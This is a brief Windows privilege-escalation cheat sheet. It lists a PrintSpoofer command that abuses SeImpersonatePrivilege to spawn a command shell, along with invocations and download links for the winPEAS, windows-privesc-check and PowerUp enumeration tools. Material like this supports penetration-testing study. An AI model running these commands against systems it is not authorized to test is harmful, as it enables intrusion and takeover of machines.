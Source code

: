 ### Local Privilege Escalation Windows

#### SeImpersonatePrivilege
```
PrintSpoofer64.exe -i -c cmd
```
https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

### Windows Enumeration Tools
```
winPEASany.exe
```
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
```
windows-privesc-check2.exe --dump -G
```
https://github.com/pentestmonkey/windows-privesc-check

```
. .\PowerUp.ps1
Invoke-AllChecks
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
